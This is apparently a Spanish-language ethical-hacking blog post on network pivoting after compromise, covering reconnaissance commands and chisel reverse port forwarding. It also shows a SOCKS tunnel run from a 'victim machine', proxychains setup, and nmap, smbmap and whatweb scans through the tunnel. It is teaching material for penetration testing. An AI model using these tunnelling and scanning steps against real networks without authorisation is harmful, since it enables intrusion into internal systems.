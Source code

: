 ```yaml
---
layout: single
title: Pivoting.
excerpt: "Es una técnica utilizada después de haber comprometido un sistema y así acceder a otros sistemas interconectados."
date: 2023-01-11
classes: wide
header:
  teaser: /assets/images/pivoting.png
  teaser_home_page: true
categories:
- Pivoting
- Ethical Hacking
- Pentesting
tags:
- Pivoting
- Pentesting
---
```


# Pivoting.
Técnica utilizada para moverse a través de una red de un punto a otro, explorando diferentes partes de la red a medida que se avanza. Generalmente el pivoting es usado para expandir los permisos y acceso ganado en un sistema vulnerable, tambien puedes obtener acceso a sistemas remotos conectados con el sistema comprometido, o para obtener acceso a otras redes conectadas a la red inicial.<br>
Básicamente es utilizar un punto comprometido en una red para obtener acceso a otras partes de la red.<br><br>
El movimiento lateral es la capacidad de un atacante para moverse a tráves de una red y obtener acceso a diferentes sistemas haciendo uso de credenciales obtenidas, propagación de malware, técnicas de ingenieria social, herramientas de gestión remota, scripts, uso de servicios de red (SMB, HTTP, SSH etc) o la explotación de vulnerabilidades. El objetivo del movimiento lateral es expandir el acceso inicial obtenido a otros sistemas y recursos conectados a él.
<br><br>
Estos son algunos de los comandos que te ayudarán a aplicar reconocimiento en la red y encontrar otros equipo dentro del sistema.<br>
## ip a.
El comando ip a muestra información sobre las interfaces de red configuradas en el sistema, incluyendo su dirección IP, máscara de subred, nombre, dirección MAC y el estado.
<br><br>
## hostname -I.
Comando que muestra las direcciones IPv4 correspondientes a las interfaces de red disponibles en el sistema configuradas, en lugar de mostrarte el nombre de host configurado.<br><br>
## RPF (Remote Port Forwarding).
Es una técnica utilizada para redirigir el tráfico de un puerto especico en un equipo remote a un puerto específico en un equipo local. Básicamente es hacer que un puerto en un equipo se convierta en el puerto de tu equipo.<br>
Para utilizar esta técnica puedes hacer uso de chisel que es una herramienta para crear túneles, la redirección de puertos, capturas de pantalla y grabación de sesiones de un escritorio remoto.<br>
```
./chisel server --reverse -p 1234	# Desde tu máquina.
# chisel server -> Indica que se creará un servidor en el sistema local para establecer una conexión remota.
# --reverse -> Indica que se utilizará la opción reverse port forwarding para que un cliente pueda conectarse a un puerto.
# -p 1234 -> Con este parámetro se establece un puerto en específico, en este caso se utiliza el puerto 1234.
```
```
./chisel client <ip-address>:1234 R:80:<target-IP>:80	# Desde la máquina víctima.
# chisel client -> Indica que se establecera una conexión remota.
# <ip-address>:1234 -> Dirección IP y puerto de tu máquina por donde se establacerá la conexión.
R:<80>:<target-IP>:<80> -> "R" indica que se realizará una redirección de tráfico, del puerto 80 de la dirección IP en la máquina víctima al puerto 80 de tu máquina. 
# Todo el tráfico entrante al puerto 80 del sistema remote <target-IP> será redirigido al puerto 80 de tu equipo.
```
Para acceder al puerto puedes hacerlo desde el navegador usando el localhost .
```
http://localhost

http://127.0.0.1:80
```
<br><br>
Establecer una conexión de tipo SOCKS para redirigir el tráfico de red a través de un servidor proxy. Esto permite acceder a recursos de red restringidos o bloqueados mediante la conexión remota. Esta conexión es muy util para no estar trayendote puerto por puerto como en el comando anterior.<br>
Una conexión de tipo SOCKS (Socket Secure) es una conexión de red que utiliza el protocolo SOCKS para enrutar el tráfico de red a través de un servidor proxy.<br>
```
chisel client <ip-address>:1234 R:socks
```
Debes modíficar el archivo /etc/proxychains.conf para poder tener acceso a la conexión establecida agregando la siguiente linea al final del archivo.<br>
`` socks5 127.0.0.1 1080 ``.
<br><br>
## Proxychains.
Es una herramienta que intercepta el tráfico de red y lo enruta a un servidor proxy especificado en su configuración.<br>

Realizar un escaneo de puertos usando proxychains.
```
proxychains nmap -p- --open -sT -T5 -v -n -Pn <ip-address> -oG allPorts 2>&1 | grep -vE "timeout|OK"

# proxychains nmap -> Indica que se utilizará nmap para realizar el escaneo de puertos aprovechandose de la conexión socks5 establecida.
# -p- -> Escaneo a 65535 puertos.
# --open -> Nmap reportará solo aquellos puertos con status abierto.
# -sT -> Escaneo mediante el protocolo TCP.
# -T5 -> Indica el tiempo de espera que esperará para recibir una respuesta por parte de los dispositivos escaneados y asi evitar la perdida de paquetes.  
# -v -> Verbose para que a medida que se vaya realizando el escaneo se vayan reportando los puertos abiertos encontrados.
# -n -> Indique que no se aplique resolición DNS.
# -Pn -> Indica que no se aplique discubrimiento de host.
# -oG -> Exportar el resultado en formato grepable al archivo allPorts.
# 2>&1 -> Indica que se rediridirá la salida de error (stder) al descriptor de archivo 2 a la salida estandar (stout) descriptor 1.
# Los errores generados por el comando por el comando anterior se mostrarán en consola junto con la salida normal en lugar de ser ignorados.
# Esto fácilita que puedas filtrar por los puertos quitando cadenas de caracteres.
# grep -vE -> Sirve para quitar multiples cadenas de caracteres separadas por un "|" que no quieres que se muestren en consola.
```
Para tener acceso al sitio web de la máquina debes configurar un proxy (foxy-proxy) de tipo SOCKS 5 desde el localhost (127.0.0.1) en el puerto 1080 (Donde se estableció el túnel con chisel).<br>
Cada que quieras interactuar con el equipo que tiene establecida la conexión de tipo SOCKS, tienes que llamar primero a la herramienta proxychains antes de la instrucción que quieras ejecutar para que todas las consultas pasen por túnel creado.<br>
Ej;<br>
`` proxychains smbmap -H <ip-address> ``
`` proxychains whatweb http://<ip-address> ``






